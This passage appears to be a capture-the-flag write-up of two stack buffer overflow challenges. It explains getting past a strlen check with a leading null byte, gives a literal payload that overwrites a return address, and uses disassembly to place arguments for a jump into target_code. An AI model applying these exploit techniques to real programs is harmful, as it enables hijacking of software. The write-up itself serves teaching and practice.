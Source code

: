 To overflow to overwrite the return address, 22 bytes of strings if needed. However, there is a length check using `strlen`, it's easy to cheat it just put a '\\0' at the head of the byte stream. After the byte stream is sended, a address of `target_code` can be inserted. Mention the address `0x08048576` is MSB, a LSB representation is `\x76\x85\x04\x08`. So the payload is `'\0' * 22 + '\x76\x85\x04\x08'` (any char is okay, only make sure a '\\0' is in `buffer[0:10]`)

<img src="assets/image-20210330140443802.png" style="zoom: 50%;" />

## Bof-again

Disassemble again: 

```assembly
08048516 <target_code>:
 8048516:	55                   	push   %ebp
 8048517:	89 e5                	mov    %esp,%ebp
 8048519:	53                   	push   %ebx
 804851a:	83 ec 04             	sub    $0x4,%esp
 804851d:	e8 2e ff ff ff       	call   8048450 <__x86.get_pc_thunk.bx>
 8048522:	81 c3 de 1a 00 00    	add    $0x1ade,%ebx
 8048528:	81 7d 08 bb bb aa aa 	cmpl   $0xaaaabbbb,0x8(%ebp)
 804852f:	75 33                	jne    8048564 <target_code+0x4e>
 8048531:	81 7d 0c dd dd cc cc 	cmpl   $0xccccdddd,0xc(%ebp)
 8048538:	75 2a                	jne    8048564 <target_code+0x4e>
 ......
```

First we check the `target_code`, we can find that `&arg1 == ebp + 8`, `&arg2 == ebp + 12`

```assembly
0804857c <func>:
 804857c:	55                   	push   %ebp
 804857d:	89 e5                	mov    %esp,%ebp
 804857f:	53                   	push   %ebx
 8048580:	83 ec 24             	sub    $0x24,%esp
 8048583:	e8 f0 00 00 00       	call   8048678 <__x86.get_pc_thunk.ax>
 8048588:	05 78 1a 00 00       	add    $0x1a78,%eax
 804858d:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%ebp)
 8048594:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%ebp)
 804859b:	c7 45 ec 00 00 00 00 	movl   $0x0,-0x14(%ebp)
 80485a2:	c7 45 f0 00 00 00 00 	movl   $0x0,-0x10(%ebp)
 80485a9:	c7 45 f4 00 00 00 00 	movl   $0x0,-0xc(%ebp)
 80485b0:	c6 45 e4 30          	movb   $0x30,-0x1c(%ebp)
 ......
```

Then we check the `func` which is to be cracked. Bascally it's the same as `func` in [bof-boy](#Bof-boy).

So it's easy to get the location of `arg1` and `arg2` combining the 2 functions. Mention that the address of retAddr in `target_code` is 4 bytes highter than which in the `func`, that's because `target-code` is not called by `call` instruction but by `ret`, which lack the operation of pushing the `eip` into the stack. This will leave a space of 4 bytes in stack which causes the drift of stack pointer.
